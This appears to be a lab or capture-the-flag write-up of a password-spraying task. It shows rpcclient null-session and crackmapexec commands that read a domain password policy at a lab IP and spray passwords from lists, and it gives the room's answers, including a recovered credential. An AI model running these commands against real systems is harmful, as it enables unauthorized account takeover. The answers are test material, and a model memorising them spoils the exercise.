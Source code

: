# Password Spraying - Task 4

**Check Password Policy:**
```bash
rpcclient -U "" 10.211.11.10 -N
getdompwinfo
```
![Password Policy](password_policy.png)

**Or with CrackMapExec:**
```bash
crackmapexec smb 10.211.11.10 --pass-pol
```
![Password Policy CrackMapExec](password_policy_crackm.png)

- **What is the minimum password length?**  
  `7`
- **What is the locked account duration?**  
  `2 minutes`

**Password Spraying with CrackMapExec:**
```bash
crackmapexec smb 10.211.11.10 -u users.txt -p passwords.txt
```
- **Valid credentials found:**  
  `rduke:Password1!`
![Password Flag](password_flag.png)

---

# 🛠️ Tools Used

- Nmap
- smbclient
- ldapsearch
- rpcclient
- crackmapexec

---

# 🎯 Conclusion

- All tasks completed successfully!
<div align="center">
  <img src="completed.png" alt="Room Completed" width="600"/>
</div>

---

## 🎉 Happy Hacking!
